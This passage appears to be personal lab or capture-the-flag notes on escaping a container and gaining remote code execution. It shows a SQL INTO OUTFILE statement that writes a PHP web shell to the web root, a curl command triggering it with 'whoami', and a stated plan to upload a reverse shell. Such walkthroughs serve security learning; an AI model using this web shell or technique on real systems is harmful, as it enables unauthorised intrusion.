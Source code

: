 
Now there are several ways to escape a container, all typically stemming from misconfigurations of the container from services or access controls.

[https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html)

This is the code that will help us to create or can see help us to inject our php code that we can trigger to get the RCE vulnerability.

```sql
select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';
```

![[Pasted image 20240215205743.png]]

```bash
curl 192.168.100.1:8080/shell.php?cmd=whoami
```

![[Pasted image 20240219000458.png]]
this means that the code is inserted successfully in the database and we can access it through the curl command that means we have to upload a reverse shell (i.e. bash in our case and will try to trigger it and get a shell from it)



